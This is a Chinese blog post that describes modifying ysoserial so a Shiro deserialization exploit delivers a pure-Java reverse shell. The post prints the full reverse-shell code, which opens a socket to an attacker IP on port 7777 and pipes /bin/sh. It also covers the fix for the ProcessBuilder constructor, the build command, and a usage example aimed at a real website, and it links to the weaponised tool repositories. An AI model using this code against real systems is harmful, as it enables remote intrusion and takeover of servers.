






最近项目中碰到了两个shiro反序列化，能出网反弹shell失败的情况，和公司师傅请教了一下，豁然开朗，修改了一下ysoserial的一些源码，也成功打通了
改动的仓库https://github.com/Kit4y/shuyu-ysoserial
打包版本https://github.com/Kit4y/Awesome_shiro/tree/master/shiro_shuyu
为什么之前打不通？
两次项目均是这种情况，可以出网，可以反弹shell,但是命令执行就是没有回显

在前文中，我们捋了一下yso项目的结构JAVA3-ysoserial调试和构造URLDNS的pop链,再看一下yso的项目框架
1 | │ GeneratePayload.java {{生成poc的入口函数}} |
通过点追踪，我们找命令执行的拼接片段在ysoserial\payloads\util\ Gadgets.java

命令是通过
1 | String cmd="java.lang.Runtime.getRuntime().exec(\"" + |
也就是https://github.com/Kit4y/shuyu-ysoserial/blob/master/src/main/java/ysoserial/payloads/util/Gadgets.java这里的120行左右
拼接，然后作者在代码上注释了一行有意思的话
// TODO: could also do fun things like injecting a pure-java rev/bind-shell to bypass naive protections
很明白了，我们可以改成自己的纯java的片段，简直为所欲为，所以我们也打算对他下手了。
java原生Socket_shell
这个不多说网上都有,这里为了反序列化，将所有的函数写上完整的包路径，比如java.net.Socket,java.io.IOException
1 | public class rce { |
可以编译运行一下测试

植入代码问题(如果只看结果可以跳过这一段)
因为这是java,理论上直接讲我们socket的shell换行符删除，应该就能直接运行
于是将cmd改成暂时写死的的反弹shell代码片
1 | cmd=" String host=\"XXX.XXX.XXX.XXX\";int port=7777;String cmd=\"/bin/sh\";Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();java.net.Socket s=new java.net.Socket(host,port);java.io.InputStream pi=p.getInputStream(),pe=p.getErrorStream(),si=s.getInputStream();java.io.OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()) {while(pi.available()>0) {so.write(pi.read());}while(pe.available()>0) {so.write(pe.read());}while(si.available()>0) {po.write(si.read());}so.flush();po.flush();try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();" |
果不其然直接报错

看了很久这个报错，问了一下师傅（Orz长亭师傅是真的顶
原因在ProcessBuilder的构造
报错说[source error] cannot find constructor java.lang.ProcessBuilder(java.lang.String)意味着字符串当参数就不能反序列化了，我们查看ProcessBuilder源码
1 | /** |
原来这里应该改成字符串数组，于是我们可以把 String cmd="/bin/sh";改成String[] cmd=new String[]{\"/bin/sh\"}(军先师傅tql,
还有一个是Thread.sleep(50);也报错了，我们先直接删除
然后重新mvn打包-生成ysoserial.jar打一下试试
1 | jar ：mvn clean install -Dmaven.test.skip=true |
ok-成功打通了！

优化
现在我们只要把ip和端口写活着即可,因为暂时不想改整体框架的内容，就直接将command改了一下-懒癌是这样的，随手一改
1 | String[] cmds = command.split(" "); |
https://github.com/Kit4y/Awesome_shiro/tree/master/shiro_shuyu
尝试运行一下python3 shiro_rce.py http://www.baidu.com/login.do "xxx.xxx.xx.xx 7777"

感触
学习java项目，研究源码是最直接最深触的学习途径，比去什么垃圾教程上看好多了。不仅可以看到项目如何跑，还能膜一下大佬们怎么写优雅的代码。通过修改源码改成自己顺手的工具也是一个不错的学习过程。Orz长亭师傅tql